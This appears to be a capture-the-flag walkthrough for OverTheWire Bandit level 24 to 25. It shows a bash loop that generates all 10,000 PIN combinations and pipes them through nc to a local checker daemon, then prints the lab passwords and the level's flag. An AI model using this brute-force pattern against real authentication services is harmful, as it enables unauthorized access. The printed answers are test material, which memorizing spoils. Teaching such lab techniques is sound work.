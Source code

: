 <p align="center">
<a href="level-23→24.md">Previous Level: Level 23 → 24</a>
</p>

# [Bandit Level 24 → 25](https://overthewire.org/wargames/bandit/bandit25.html)

## Login Info
- **SSH:** `ssh bandit.labs.overthewire.org -p 2220 -l bandit24`
- **Password:** `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

---

## Task 
The goal of this level is to send the **current level's password + a 4 digit pincode** to a daemon listening on port 30002. If the pincode is correct, the password for the next level will be returned. There is no way to retrieve the pincode except by going through all the 10000 combinations (brute forcing).

## Steps
Let's connect to the daemon on port 30002 and try some input:
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
Wrong! Please enter the correct current password and pincode. Try again.
```
We can see the greeting message as well as the error message upon entering an incorrect attempt.
Now obviously we are not going to painstakingly  write this out 1 by 1.  
Let's create a temp dir to work out of:
```bash
bandit24@bandit:~$ mktemp -d
/tmp/tmp.5Ck1rNgArW
bandit24@bandit:~$ cd /tmp/tmp.5Ck1rNgArW
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ 
```
Let's use a bash script to create all possible permutations of the password and pincode, after we're done we can pipe that file into `nc` and filter with `grep` with the `-v` option which inverts the match since we know an invalid entry is met with `Wrong! ...`.
```bash
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ nano bruteforce.sh
```
Inside bruteforce.sh we write:
```bash
#!/bin/bash
for i in {0000..9999}
do
  echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> permutations.txt
done

cat permutations.txt | nc localhost 30002 | grep -v 'Wrong!' > password.txt
```

Make the script executable and run it:
```bash
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ chmod +x bruteforce.sh
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ ls -l
total 4
-rwxrwxr-x 1 bandit24 bandit24 182 Oct  2 08:48 bruteforce.sh
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ ./bruteforce.sh 
```
After running it, let's check our directory for password.txt:
```bash
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ ls
bruteforce.sh  password.txt  permutations.txt
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ cat password.txt 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
## Flag
```bash
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

## Notes
- `for i in {0000..9999}; do …; done` loops over the numbers 0000 to 9999, executing the commands between `do` and `done` for each `i`.
- `cat file.txt` streams the file’s contents to stdout, and each newline (`\n`) in the file acts like **pressing Enter** when sending input to a program.
- In `grep`, the `-v` option inverts the match, showing only lines that do not contain the specified pattern.


<p align="center">
<a href="level-25→26.md">Next Level: Level 25 → 26</a>
</p>



